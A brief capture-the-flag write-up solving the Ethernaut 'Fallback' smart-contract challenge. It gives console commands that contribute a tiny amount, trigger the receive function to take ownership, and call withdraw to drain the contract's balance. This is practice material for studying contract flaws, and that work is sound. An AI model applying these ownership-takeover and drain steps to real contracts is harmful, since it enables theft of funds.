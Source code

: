 # Fallback

The receive function is flawed, we just need to send some value via contribute and then via receive to change the owner. The contribute requires less than 0.001 ether to function, and receive expects at least 0, so:

1. We send `await contract.contribute({value: "1"})`.
2. We send money to the contract address via a fallback function. This can be done by calling an undefined function in the contract with some ether value, such as: `await contract.sendTransaction({from: player, value: "1", data: undefined})`.
3. You can now see that you are the owner via `await contract.owner()`, or make really really sure with `(await contract.owner()) === player`
4. To deal the final blow, we call the `await contract.withdraw()`. By only spending 2 Wei, we got the owners balance :)
